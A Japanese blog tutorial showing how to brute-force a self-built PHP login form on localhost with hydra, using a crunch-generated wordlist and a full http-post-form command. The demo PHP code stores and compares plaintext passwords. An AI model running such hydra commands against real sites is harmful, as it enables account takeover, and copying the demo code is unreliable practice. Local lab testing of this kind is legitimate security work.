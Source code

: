 ```yaml
---
title: "hydraを使ってブルートフォース攻撃をする方法"
path: blog/hydraPHP
tags: [Linux, PHP]
cover: ./Security.png
date: 2021-03-07
excerpt: hydraを使ってブルートフォース攻撃をする方法
---
```


## 目的

hydraを使ってローカル環境のログインフォームにブルートフォース攻撃をし、脆弱性を確認する。

## 使用環境

- MAC
- MAMP
- hydra
- Homebrew

## hydraとは

hydraはパスワードクラック用のライブラリです。<br>
パスワードリストからブルートフォース攻撃をする際に用いられます。<br>
[公式GitHub](https://github.com/vanhauser-thc/thc-hydra)

## 手順

1. ### hydraのインストール

    hydraの依存関係をbrewコマンドで確認します。

    ```
    brew info hydra
    ```

    ![](./hydra1.png)

    Requiredを確認すると、「libssh」「mysql-client」「openssh」が必須のようです。
    × マークがついていたらインストールしておきましょう。

    ```
    brew install libssh
    brew install mysql-client
    brew install openssh
    ```

    全てにチェックがついたらhydraをインストールします。
    ![](./hydra2.png)

    ```
    brew install hydra
    ```

2. ### PHPでログインフォームの実装

    NAMEとPASSで認証をする、Basic認証のログインフォームをPHPで実装していきます。<br>
    例として、NAMEは「test」、PASSは「test」でMySqlに登録します。
    IDとPASSが一致すると「ログイン成功です」と表示されます。

    ```html
    <html>
        <head>
            <title>ログイン</title>
        </head>
        <body>
            <form action="login_sql.php" method="POST">
                ID: <input type="text" name="name">
                PASS: <input type="text" name="password">
                <input type="submit" value="login">
            </form>
        </body>
    </html>
    ```

    ```php
    <?php
    session_start();
    header('Content-Type: text/html; charset=UTF-8');
    $name = @$_POST['name'];
    $password = @$_POST['password'];

    try {
        $pdo = new PDO('mysql:dbname=hydra;host=localhost;charset=utf8','root','root');
        echo "接続成功\n";
        $sql = 'SELECT * FROM users WHERE name = :name and password = :password';
        // PDOStatementクラスのインスタンスを生成
        $prepare = $pdo->prepare($sql);
        $prepare->bindValue(':name', $name, PDO::PARAM_STR);
        $prepare->bindValue(':password', $password, PDO::PARAM_STR);
        // プリペアドステートメントを実行する
        $prepare->execute();
        // PDO::FETCH_ASSOCは、対応するカラム名にふられているものと同じキーを付けた 連想配列として取得します。
        $result = $prepare->fetchAll(PDO::FETCH_ASSOC);
    } catch (PDOException $e) {
        echo "接続失敗: " . $e->getMessage() . "\n";
        exit();
    }
    ?>

    <html>
    <body>
        <?php
            if(count($result) > 0){
                $_SESSION['id'] = $id;
                echo 'ログイン成功です';
            } else {
                echo 'ログイン失敗です';
            }
        ?>
    </body>
    </html>
    ```

3. ### hydraでデモ

    hydraで使うパスワードリストをcrunchコマンドで作っていきます。<br>
    デモなので桁数がわかっている体で、4文字の"aaaa"から"zzzz"のパスワードリストを生成しましょう。

    ```
    crunch 4 4 -o password.txt
    ```

    パスワードファイルが作られたら、それを使いhydraでブルートフォース攻撃をしかけます。

    ■hydraの基本構文

    ```
    hydra -l [ユーザ名] -P [パスワード辞書ファイル] [対象サーバ名/対象サーバIPアドレス] [http-get or ssh]
    ```

    今回はPOST通信でlocalhostに向けて攻撃しますので、それに合わせてコマンドを作り実行します。<br>
    詳しいオプションについては[hydra GitHub](https://github.com/vanhauser-thc/thc-hydra)を参考にしてください。

    ```
    hydra -l test -P password.txt 127.0.0.1 http-post-form '/login_sql.php:name=^USER^&password=^PASS^:ログイン失敗です'
    ```

    コマンドを実行するとパスワードリストの全てのパターンを先頭から実行していきます。
    パスワードが一致するとキャプチャのようにパスワードが出力されます。

    ![](./hydra3.png)